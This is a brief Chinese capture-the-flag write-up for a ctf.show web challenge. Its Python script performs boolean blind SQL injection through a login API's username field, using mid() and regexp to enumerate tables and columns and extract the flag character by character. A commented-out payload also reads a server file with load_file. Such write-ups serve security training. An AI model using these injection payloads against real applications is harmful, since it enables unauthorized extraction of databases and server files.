

# 知识点
与web193相似，任然能通过mid绕过
# 思路
```python
import requests
url = 'http://23dc0909-dff2-422b-9149-398539d93a2e.challenge.ctf.show/api/'
str = ''
string = "{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-"
for i in range(48):
    # print(i)
    for j in string:
        # 爆数据库
        # payload1 = {
        #     'username': f"' or if(ascii(substr(()))",
        #     'password': f"123"
        # }
        # 爆表名
        # payload = {
        #     'username': f"' or if(mid((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1)regexp('{j}'),1,0)#",
        #     'password': f"123"
        # }
        # # 爆列
        # payload = {
        #     'username': f"' or if(mid((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{i},1)regexp('{j}'),1,0)#",
        #     'password': f"123"
        # }
        # 爆值
        payload = {
            'username': f"' or if(mid((select group_concat(f1ag) from ctfshow_flxg),{i},1)regexp('{j}'),1,0)#",
            'password': f"123"
        }
        # payload = {'username':f"if(load_file('/var/www/html/api/index.php')regexp('{flag+j}'),0,1)",
        #            'password':0}
        r = requests.post(url=url,data=payload).text
        # print(j+r)
        if(r'\u5bc6\u7801\u9519\u8bef' in r):
            str += j
            print(str)
            break
```

